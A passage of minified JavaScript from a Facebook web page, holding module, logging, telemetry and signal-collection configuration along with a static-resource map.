_rate:100,interaction_to_lite_coinflip:{ADS_INTERFACES_INTERACTION:0,ads_perf_scenario:0,ads_wait_time:0,Event:1},interaction_to_coinflip:{ADS_INTERFACES_INTERACTION:1,ads_perf_scenario:1,ads_wait_time:1,Event:100},enable_heartbeat:false,maxBlockMergeDuration:0,maxBlockMergeDistance:0,enable_banzai_stream:true,user_timing_coinflip:50,banzai_stream_coinflip:0,compression_enabled:true,ref_counting_fix:false,ref_counting_cont_fix:false,also_record_new_timeslice_format:false,force_async_request_tracing_on:false},2609],["BDSignalCollectionData",[],{sc:"{\"t\":1659080345,\"c\":[[30000,838801],[30001,838801],[30002,838801],[30003,838801],[30004,838801],[30005,838801],[30006,573585],[30007,838801],[30008,838801],[30012,838801],[30013,838801],[30015,806033],[30018,806033],[30021,540823],[30022,540817],[30040,806033],[30093,806033],[30094,806033],[30095,806033],[30101,541591],[30102,541591],[30103,541591],[30104,541591],[30106,806039],[30107,806039],[38000,541427],[38001,806643]]}",fds:60,fda:60,i:60,sbs:1,dbs:100,bbs:100,hbi:60,rt:262144,hbcbc:2,hbvbc:0,hbbi:30,sid:-1,hbv:"6770095619179479705"},5239],["cr:8546",["FDSCometTooltip.react"],{__rc:["FDSCometTooltip.react",null]},-1],["cr:994756",["BaseBlueModal.react"],{__rc:["BaseBlueModal.react",null]},-1],["cr:1645510",[],{__rc:[null,null]},-1],["cr:1824473",[],{__rc:[null,null]},-1],["cr:3976",[],{__rc:[null,null]},-1],["cr:1094133",[],{__rc:[null,null]},-1],["cr:1642797",["BanzaiBase"],{__rc:["BanzaiBase",null]},-1],["cr:896461",["setIntervalBlue"],{__rc:["setIntervalBlue",null]},-1],["cr:3798",[],{__rc:[null,null]},-1],["cr:1292365",["React-prod.classic"],{__rc:["React-prod.classic",null]},-1],["cr:5277",["ReactDOM.classic.prod-or-profiling"],{__rc:["ReactDOM.classic.prod-or-profiling",null]},-1],["cr:1042",["XAsyncRequestWWW"],{__rc:["XAsyncRequestWWW",null]},-1],["WebLoomConfig",[],{adaptive_config:{interactions:{modules:{"2097":1,"2804":1,"12068":1},events:{}},qpl:{modules:{},events:{}},modules:null,events:null}},4171],["cr:5866",["BanzaiAdapterWWW"],{__rc:["BanzaiAdapterWWW",null]},-1],["cr:7384",["cancelIdleCallbackWWW"],{__rc:["cancelIdleCallbackWWW",null]},-1],["cr:5278",["ReactDOM-prod.classic"],{__rc:["ReactDOM-prod.classic",null]},-1],["cr:692209",["cancelIdleCallbackBlue"],{__rc:["cancelIdleCallbackBlue",null]},-1],["cr:5695",["EventListenerWWW"],{__rc:["EventListenerWWW",null]},-1],["cr:8909",["ReactFiberErrorDialogWWW"],{__rc:["ReactFiberErrorDialogWWW",null]},-1],["BanzaiConfig",[],{MAX_SIZE:10000,MAX_WAIT:150000,MIN_WAIT:null,RESTORE_WAIT:150000,blacklist:["time_spent"],disabled:false,gks:{boosted_pagelikes:true,mercury_send_error_logging:true,platform_oauth_client_events:true,sticker_search_ranking:true},known_routes:["artillery_javascript_actions","artillery_javascript_trace","artillery_logger_data","logger","falco","gk2_exposure","js_error_logging","loom_trace","marauder","perfx_custom_logger_endpoint","qex","require_cond_exposure_logging","metaconfig_exposure"],should_drop_unknown_routes:true,should_log_unknown_routes:false},7],["cr:1353359",["EventListenerImplForBlue"],{__rc:["EventListenerImplForBlue",null]},-1],["DOMScannerConfig",[],{scan_id:"k1VXLsnPwO_0",delay:10000,needs_scan:true},7201],["cr:6943",["EventListenerImplForCacheStorage"],{__rc:["EventListenerImplForCacheStorage",null]},-1],["cr:1634616",["UserActivityBlue"],{__rc:["UserActivityBlue",null]},-1],["cr:844180",["TimeSpentImmediateActiveSecondsLoggerBlue"],{__rc:["TimeSpentImmediateActiveSecondsLoggerBlue",null]},-1],["cr:1187159",["BlueCompatBroker"],{__rc:["BlueCompatBroker",null]},-1],["WebDevicePerfInfoData",[],{needsFullUpdate:true,needsPartialUpdate:false,shouldLogResourcePerf:false},3977],["WebStorageMonsterLoggingURI",[],{uri:"/ajax/webstorage/process_keys/?state=1"},3032],["BrowserPaymentHandlerConfig",[],{enabled:false},3904],["TimeSpentConfig",[],{delay:1000,timeout:64,"0_delay":0,"0_timeout":8},142],["cr:5800",[],{__rc:[null,null]},-1],["ImmediateActiveSecondsConfig",[],{sampling_rate:0},423]],require:[["BDClientSignalCollectionTrigger","startSignalCollection",[],[{sc:"{\"t\":1659080345,\"c\":[[30000,838801],[30001,838801],[30002,838801],[30003,838801],[30004,838801],[30005,838801],[30006,573585],[30007,838801],[30008,838801],[30012,838801],[30013,838801],[30015,806033],[30018,806033],[30021,540823],[30022,540817],[30040,806033],[30093,806033],[30094,806033],[30095,806033],[30101,541591],[30102,541591],[30103,541591],[30104,541591],[30106,806039],[30107,806039],[38000,541427],[38001,806643]]}",fds:60,fda:60,i:60,sbs:1,dbs:100,bbs:100,hbi:60,rt:262144,hbcbc:2,hbvbc:0,hbbi:30,sid:-1,hbv:"6770095619179479705"}]],["NavigationMetrics","setPage",[],[{page:"XIndexReduxController",page_type:"normal",page_uri:"https://web.facebook.com/?locale=id_ID&_rdc=1&_rdr",serverLID:"7355536335707587444"}]],["FalcoLoggerTransports","attach",[],[]],["Chromedome","start",[],[{}]],["DimensionTracking"],["ClickRefLogger"],["NavigationClickPointHandler"],["ServiceWorkerURLCleaner","removeRedirectID",[],[]],["WebDevicePerfInfoLogging","doLog",[],[]],["WebStorageMonster","schedule",[],[]],["Artillery","disable",[],[]],["ScriptPathLogger","startLogging",[],[]],["TimeSpentBitArrayLogger","init",[],[]],["TransportSelectingClientSingletonConditional"],["RequireDeferredReference","unblock",[],[["TransportSelectingClientSingletonConditional"],"sd"]],["RequireDeferredReference","unblock",[],[["TransportSelectingClientSingletonConditional"],"css"]]]},hsrp:{hsdp:{clpData:{"1871697":{r:1,s:1},"1829319":{r:1},"1829320":{r:1},"1843988":{r:1}}},hblp:{consistency:{rev:1012612339},rsrcMap:{PWvGUSc:{type:"js",src:"https://z-p3-static.xx.fbcdn.net/rsrc.php/v3/yz/r/R9MsQbdO8Qf.js?_nc_x=Ij3Wp8lg5Kz"}}}},allResources:["IYvn1RJ","zPYlTyl","BFolX4R","iGtOaF1","juI0lGk","qUOfXdB","sDwjFDW","PWvGUSc","VDuWKI5","w6++B1W"]});}));</script></body></html>
